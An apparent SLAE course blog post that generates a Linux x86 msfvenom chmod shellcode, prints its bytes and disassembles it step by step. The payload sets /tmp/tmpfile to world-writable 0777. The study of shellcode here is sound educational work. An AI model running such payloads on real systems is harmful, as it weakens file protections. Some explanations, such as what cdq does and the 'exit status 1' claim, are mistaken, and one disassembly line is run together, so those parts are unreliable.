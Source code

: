# Analyze: chmod

# Create shellcode
```bash
msfvenom -p linux/x86/chmod -f c FILE=/tmp/tmpfile MODE=0777
```

This shellcode will change the permissions of the target file `/tmp/tmpfile` to `0777` or read/write/execute for all users.

# Analysis

## Disassemble w/ bash
```bash
echo -n "\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x74\x6d\x70\x2f\x74\x6d\x70\x66\x69\x6c\x65\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80D000000        call 0x17
0000000A  2F                das
0000000B  746D              jz 0x7a0000000D  702F              jo 0x3e
0000000F  746D              jz 0x7e
00000011  7066              jo 0x79
00000013  696C65005B68FF01  imul ebp,[ebp+0x0],dword 0x1ff685b
0000001B  0000              add [eax],al
0000001D  59                pop ecx
0000001E  CD80              int 0x80
00000020  6A01              push byte +0x1
00000022  58                pop eax
00000023  CD80              int 0x80
```

## Disassembly Analysis
The first instruction is:

```x86asm
00000000  99                cdq
```

This one is quite interesting, it seems to be clearing the value of `eax`, however, it seems unnecessary as a value from the stack is poped into eax in the next couple instructions. I belive it is also clearing out the value of edx as edx is pushed to the stack next, and this would be the only instruction used to control the value in edx. Very interesting!

```x86asm
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
```

The value of `0xf` is the number `15` in decimal form and corresponds to the function [chmod()](https://man7.org/linux/man-pages/man2/chmod.2.html) when the syscall is triggered. It's function definition looks like this:

```c
int chmod(const char *pathname, mode_t mode)
```

Next a call is made to 0x17, which will place the pointer to `0000000A` on the stack and will probably be used later as a string. I can confrim this because the instructions that start at `0000000A` are a mess and decode to a string. `2F746D702F746D7066696C6500` correspond to the string `/tmp/tmpfile`

```x86asm
00000005  E80D000000        call 0x17
0000000A  2F746D702F746D7066696C6500  ; /tmp/tmpfile
```

To rebuild the rest of the shellcode from being scrambled and offset, I will run this command with the remaining shellcode bytes that have yet to be analyzed:

```bash
echo -n "`python2 -c 'print "\x90"*23'`\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -p intel - | grep -v nop
```

Then the pointer to the string on the stack is poped into `ebx`, the value of `0x1ff` is pushed to the stack and poped into `ecx` as the second parameter to chmod and is `777` in decimal (global read/write/execute).

```x86asm
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)
```

Finally, the program exits gracefully with a status code of 1. 

```x86asm
00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()
```





## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code in totality:

```x86asm
00000000  99                cdq             
00000001  6A0F              push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"
                                                
00000003  58                pop eax             ; int chmod(const char *pathname, mode_t mode);
00000004  52                push edx            ; 
00000005  E80D000000        call 0x17           ; jmp label1


0000000A  2F746D702F746D7066696C6500            ; (ascii) /tmp/tmpfile

lebel1:
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)



00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()
```



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly
